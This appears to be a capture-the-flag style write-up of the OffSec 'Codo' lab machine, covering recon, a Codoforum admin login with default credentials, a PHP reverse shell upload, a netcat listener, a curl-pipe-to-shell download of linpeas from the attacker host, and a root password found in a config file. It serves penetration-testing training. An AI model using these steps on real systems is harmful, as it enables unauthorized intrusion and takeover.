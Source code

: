 ```yaml
---
title: Codo
date: 2023-12-10
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Linux
  - Easy
---
```


![info](./info.png)

# Recon
![info-comm](./info-comm.png)
This machine has a Linux OS and is also rated easy by the community.

Remember to make an entry for the IP in `/etc/hosts` file. My entry looks like:
```
192.168.183.23  codo.offsec
```
## Nmap
``` 
nmap -p- --open -sC -sV codo.offsec
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.
![nmap](./nmap.png)

The nmap scan discovered a web application
- Browse to `http://codo/` and we can see that the website is `Powered by Codoforum`

## Gobuster
```
gobuster dir -u codo.offsec/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt 
```
![gobuster](./gobuster.png)
The gobuster scan found an admin panel at `/admin/`
- The default credentials `admin:admin` can be used to log in

## Searchsploit
```
searchsploit codoforum
```
![searchsploit](./searchsploit.png)
Searchsploit returns a couple scripts, but the remote code execution python script looks the most interesting, download the script using:
```
searchsploit -m php/webapps/50978.py
```
- looking at this script shows the following URL location that allows for file upload
![urlUpload](./urlUpload.png)
- when going to the URL in the browser, we are indeed able to upload an image file

# Exploitation
Let's run the script found from searchsploit. The format for the flags are shown below.
```
python3 exploit.py -t [target url] -u [username] -p [password] -i [listener ip] -n [listener port]
```
![firstrun](./firstrun.png)

Unfortunately, the script does not run correctly and fails in uploading the script. 

We can manually upload a PHP script as shown by the output.
- [Use this PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- make sure to change the IP to the kali host and port number in the reverse shell php script
![changeField](./changeField.png)

Upload the php reverse shell by going to admin panel -> global settings -> scroll down to change logo for the forum.
![uploadField](./uploadField.png)
Then, click the save button.

Start a netcat listener with `nc -lnvp 1234`

After uploading the script and starting a listener, the attacker can execute the uploaded script by going to `http://codo.offsec/sites/default/assets/img/attachments/[uploaded_filename.php]`
![local](./local.png)

To get a fully functional shell follow the commands below
```
python3 -c ‘import pty;pty.spawn(“/bin/bash”);’
export TERM=xterm
Ctrl + z
stty raw -echo ; fg
reset
```

## Privilege Escalation
To assess the attack surface, run `linpeas.sh` on the target:
- run a python http server in the directory with the `linpeas.sh` file with `python3 -m http.server 80`
- then use the `curl` command with `sh` to run the script on the target machine
- the IP specified is downloading from my Kali host
```
curl http://192.168.45.202/linpeas.sh | sh
```

### Linpeas Results
From the scan results, we find a config PHP file with a password in it.
![foundPass](./foundPass.png)

We can try to log in to other users on the machine using this password
- linpeas found two other users, `root` and `offsec`
- use the `su` command and try password `FatPanda123`
![foundUsers](./foundUsers.png)

The password works for the `root` user
![root](./root.png)

# Summary
Vulnerabilities include default credentials (`admin:admin`) on a Codoforum-powered web app, allowing unauthorized access to the admin panel. Despite a failed automated script, manual upload of a PHP reverse shell through the admin interface succeeds, leading to a fully functional shell. Privilege escalation involves discovering a password in Linpeas scan, granting root access on the machine.

Join me for the next machine soon for more exciting challenges and security insights!

+10 points